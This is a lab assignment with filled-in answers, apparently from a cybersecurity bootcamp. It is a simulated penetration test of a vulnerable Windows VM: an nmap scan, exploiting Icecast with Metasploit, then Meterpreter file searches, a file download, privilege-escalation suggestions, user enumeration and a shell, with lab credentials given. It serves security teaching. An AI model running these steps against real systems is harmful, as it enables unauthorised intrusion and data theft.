 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

      ![nmap](images/nmap.jpg)

       
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_searchsploit icecast_**

     ![searchicecast](images/searchicecast.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_msfconsole_**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_use exploit/windows/http/icecast_header_**

     ![useicecast](images/useicecast.jpg)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_use 0_**
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_set RHOSTS 192.168.0.20_**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_exploit_**

     ![useicecast](images/useicecast.jpg)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_search -f *secretfile*.txt_**

     ![#6-2](images/#6-2.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_search -f *recipe*.txt_**
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **_download /users/ieuser/documents/Drinks.recipe.txt_**

      ![#7](images/#7.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

**_run post/multi/recon/local_exploit_suggester_**

![#8](images/#8.jpg)
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_run post/windows/gather/enum_logged_on_users_**

  ![A](images/A.jpg)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_shell_**

  ![B](images/B.jpg)
 
C. Run the command that displays the target's computer system information:

   > Answer: **_systeminfo_**

   ![C](images/C.jpg)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
